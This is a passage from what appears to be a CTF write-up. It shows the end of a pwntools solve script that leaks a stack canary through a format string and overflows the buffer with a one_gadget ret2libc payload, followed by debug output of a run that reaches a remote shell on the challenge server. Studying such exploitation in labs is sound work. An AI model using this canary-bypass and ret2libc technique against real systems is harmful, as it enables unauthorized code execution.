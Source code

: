 ```python
canary = long(p.recv(16),16)

# ---RET2LIBC---
payload = "A"*72 + p64(canary) + p64(0x0) + p64(one_gadget)
p.sendline(payload)
p.interactive()
```

OUTPUT:
```console
┌──(kali㉿kali)-[~/Desktop/pwn/foobar_ctf]
└─$ python2 solve.py                          
[+] Opening connection to chall.nitdgplug.org on port 30091: Done
[DEBUG] Received 0x1e bytes:
    'Can you help find the Canary ?'
[DEBUG] Received 0x1 bytes:
    '\n'
[DEBUG] Sent 0xf bytes:
    '%23$llx%20$llx\n'
[DEBUG] Received 0x1d bytes:
    '83464ac6a13fb60055f794b212e0\n'
[DEBUG] Sent 0x79 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000040  41 41 41 41  41 41 41 41  00 b6 3f a1  c6 4a 46 83  │AAAA│AAAA│··?·│·JF·│
    00000050  00 00 00 00  00 00 00 00  43 13 b2 94  f7 55 00 00  │····│····│C···│·U··│
    00000060  a0 3f b2 94  f7 55 00 00  b0 10 b2 94  f7 55 00 00  │·?··│·U··│····│·U··│
    00000070  a5 12 b2 94  f7 55 00 00  0a                        │····│·U··│·│
    00000079
[DEBUG] Received 0x48 bytes:
    'A' * 0x48
[DEBUG] Received 0x27 bytes:
    00000000  0a 50 a4 fb  92 b2 7f 0a  43 61 6e 20  79 6f 75 20  │·P··│····│Can │you │
    00000010  68 65 6c 70  20 66 69 6e  64 20 74 68  65 20 43 61  │help│ fin│d th│e Ca│
    00000020  6e 61 72 79  20 3f 0a                               │nary│ ?·│
    00000027
[*] Puts Libc Address: 0x7fb292fba450
[DEBUG] Sent 0x8 bytes:
    '%23$llx\n'
[DEBUG] Received 0x11 bytes:
    '83464ac6a13fb600\n'
[DEBUG] Sent 0x61 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000040  41 41 41 41  41 41 41 41  00 b6 3f a1  c6 4a 46 83  │AAAA│AAAA│··?·│·JF·│
    00000050  00 00 00 00  00 00 00 00  31 9b 01 93  b2 7f 00 00  │····│····│1···│····│
    00000060  0a                                                  │·│
    00000061
[*] Switching to interactive mode

[DEBUG] Received 0x48 bytes:
    'A' * 0x48
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[DEBUG] Received 0x1 bytes:
    '\n'

$ whoami
[DEBUG] Sent 0x7 bytes:
    'whoami\n'
[DEBUG] Received 0x6 bytes:
    'error\n'
error
$ ls
[DEBUG] Sent 0x3 bytes:
    'ls\n'
```